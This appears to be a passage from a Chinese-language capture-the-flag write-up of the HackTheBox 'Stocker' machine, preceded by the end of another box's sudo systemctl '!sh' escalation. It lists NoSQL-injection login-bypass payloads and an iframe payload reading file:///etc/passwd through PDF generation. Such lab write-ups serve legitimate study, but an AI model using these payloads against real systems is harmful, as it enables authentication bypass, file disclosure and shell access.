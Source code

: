 
2. `sudo /usr/bin/systemctl status trail.service`
3. `!sh`
![image](https://i.imgur.com/rJx8uZg.png)
### Stocker

#### user

nmap:

![image-20230320162937220](C:\Users\20925\AppData\Roaming\Typora\typora-user-images\image-20230320162937220.png)

80：

爆破子域名 `dev`

修改hosts，并且访问，发现是一个登录框

`noSQL` 绕过

```
Basic authentication bypass

Using not equal ($ne) or greater ($gt)

in URL

username[$ne]=toto&password[$ne]=toto

username[$regex]=.*&password[$regex]=.*

username[$exists]=true&password[$exists]=true



in JSON

{"username": {"$ne": null}, "password": {"$ne": null} }

{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }

{"username": {"$gt": undefined}, "password": {"$gt": undefined} }
```

成功绕过登录
发现可以购物，随便购买后发现存在生成的 `购物清单`

```url
http://dev.stocker.htb/api/po/返回的uuid
```

生成的pdf里会有我们传过去的参数，修改 `title`参数为 

```html
<iframe src=file:///etc/passwd height=800px weight=1200px ></iframe>
```
